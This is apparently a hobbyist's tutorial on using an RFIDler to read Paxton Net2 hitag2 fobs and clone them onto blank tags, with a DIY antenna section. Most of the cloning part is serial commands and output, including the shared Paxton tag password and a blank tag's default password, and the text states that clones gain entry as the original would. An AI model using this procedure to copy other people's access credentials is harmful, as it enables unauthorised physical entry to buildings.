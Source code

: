 # How to copy, read and write Paxton fobs and cards with an RFIDler

Paxton fobs and readers are popular in the UK especially the Net2 system where the fobs look like this with a blue ring.
![Paxton Fob](https://gist.githubusercontent.com/natmchugh/18e82761dbce52fa284c87c190dc926f/raw/fob.jpg "Paxton Fob")

Readers often look like this

![Paxton Reader](https://gist.githubusercontent.com/natmchugh/18e82761dbce52fa284c87c190dc926f/raw/reader.jpg "Paxton Reader")


This guide covers how to read an existing tag and write data to another tag. If that tag has been authorised for entry the new tag will be able to gain entry and will be seen by the reader to be the same tag, effectively a clone. You can copy cards to fobs and fobs to cards. Hereafter both fobs and cards will be referred to as tags.

## Equipment
* An RFIDLer available here from one of the tools authors http://rfidiot.org/
* Enamelled copper wire I used 33swg or ~0.25 mm
* Some Paxton fobs or hitag2 cards
* (optional) a soldering iron but you my be able to get away without one

These Paxton fobs use hitag2 technology and can be copied to hitag2 cards and fobs etc.

## Antennas
The RFIDler comes with a coil antenna that is very good for reading cards and sniffing readers. It does not however do well with other tag form factors. In order to read and write to a Paxton fob I had to wind my own antenna. This is covered further [here](/natmchugh/18e82761dbce52fa284c87c190dc926f#creating-a-diy-antenna-for-paxton-fobs).

## Connecting to your RFIDler

This is done on the command line via a serial communication program. I used minicom which is available on a mac via brew or on Linux package managers. On windows PuTTY apparently has this functionality.

You need to find out what device the RFIDler was monuted as when you plugged it in via usb. In my case it was at `/dev/tty.usbmodem092426...` and I found it by looking for the most recent mounted device in /dev.

So to connect it was just
```
minicom -D /dev/tty.usbmodem092426B340191 -b 115200
```

## Reading a tag

First we need to set the RFIDLer to hitag2 cards config
```
RFIDler> set tag hitag2
OK

*HITAG2> save
OK

HITAG2>
```
Next we need to try reading the tag serial number. This is readonly and cannot be changed but it is not used in identifying access. It can be read without knowing the password and logging into the tag and is also known as page 0.

```
HITAG2> reader
12345678
12345678
12345678
```
You should get the tag serial number being repeated continuously which means there is a good strong signal. If you don't then adjust the tag and coil position until you do.

The next step is to login to the tag by supplying the password.

```
HITAG2> login BDF5E846
06F907C2
```
The response should be the config bit and tag password. This is held on page 2 of the tag and is the same for all Paxton tags I tested. If instead you get "Login failed!" don't give up just try again.

Once you have logged in you can now read the 8 pages of data held on the tag. But first you will need to set the the VTag type to hitag2 as well.

```
HITAG2> read 0
VTag not compatible!

HITAG2> set vtag hitag2
OK

*HITAG2> save
OK

HITAG2> read 0
0: 12345678

*HITAG2> read 1
1: BDF5E846

HITAG2> read 2
…
```

repeat all the way up to page 7
Once you have this data you have all the info you need to clone the tag. The important pages are 4-7 these contain the data on which the system identifies for access.

## Can I Emulate a Paxton tag?
Not currently with an RFIDler. The data flow is more complicated than some other tags involving a back and forth of commands the reader could send. The chips in hitag2 tags handle these commands really well. So why not just use one of those i.e. clone to a hitag2 tag.

## Writing a Tag

Despite not being able to emulate a hitag to write a tag you need to load your tag data into the virtual tag or vtag.
```
HITAG2> VWRITE 1 BDF5E846PAGE2DATPAGE3DATPAGE4DATPAGE5DATPAGE6DATPAGE7DAT
BDF5E846PAGE2DATPAGE3DATPAGE4DATPAGE5DATPAGE6DATPAGE7DAT

```

Where PAGE1DAT etc is the 8 hex digits you got by reading the original tag.

Then check the contents of the VTAG

```
HITAG2> vtag
              Type: HITAG2
         Emulating: NONE
           Raw UID:
               UID:

     PWD Block (1): BDF5E846    ...F

     Key Block (2): PAGE2DAT    ..-.

  Config Block (3): PAGE3DAT

        Page 1 & 2: 0 = Read / Write
            Page 3: 0 = Read / Write
        Page 4 & 5: 0 = Read / Write
        Page 6 & 7: 0 = Read / Write
          Security: 0 = Password
              Mode: 0 = Public Mode B
        Modulation: 0 = Manchester

     PWD Block (3): GE3DAT      .=.

              Data:
                 0: 12345678
                 1: BDF5E846
                 2: PAGE2DAT
                 3: PAGE3DAT
                 4: PAGE4DAT
                 5: PAGE5DAT
                 6: PAGE6DAT
                 7: PAGE7DAT


```

If you are happy with the data as shown in the VTAG then you can clone onto another tag

```
CLONE <BDF5E846|4D494B52>
1: BDF5E846
2: PAGE2DAT
4: PAGE4DAT
5: PAGE5DAT
6: PAGE6DAT
7: PAGE7DAT

```

The password used to clone the tag at the end depends on where you got the tag from. A new blank hitag2 tag should have the password 4D494B52. If a tag has been set up for Paxton readers previously it will have the password BDF5E846.

## Creating a DIY antenna for Paxton fobs

I was able to read and write genuine Paxton fobs by creating a coil antenna that allowed the fob to be placed inside. I estimated the inductance at 200µH. This suggested that with a coil diameter of 2cm roughly 120 turns would give a similar impedance.

My top tip for winding the antenna would be to use super glue to get the initial loops on and secure them at the correct height and then electrical insulation tape to protect the coil.

![Antenna](https://gist.githubusercontent.com/natmchugh/18e82761dbce52fa284c87c190dc926f/raw/paxton_antenna.jpg "Antenna")

To test your antenna, putting a tag in and viewing the data as a graph vs time can help in fine tuning your antenna design.

To do this there is a python wrapper for rfidler that can call it via the api and plot the results

```
cd python
python rfidler.py /dev/tty.usbmodem... 'set tag hitag2' 'uid' plot 1500
```

This sets the tag type as hitag2 and then asks the tag for its serial number before plotting the results.

![Plot](https://gist.githubusercontent.com/natmchugh/18e82761dbce52fa284c87c190dc926f/raw/plot.png "Plot")

Once you start getting good pulses that can be easily distinguished from the background noise you can attempt to use the antenna to read a fob.

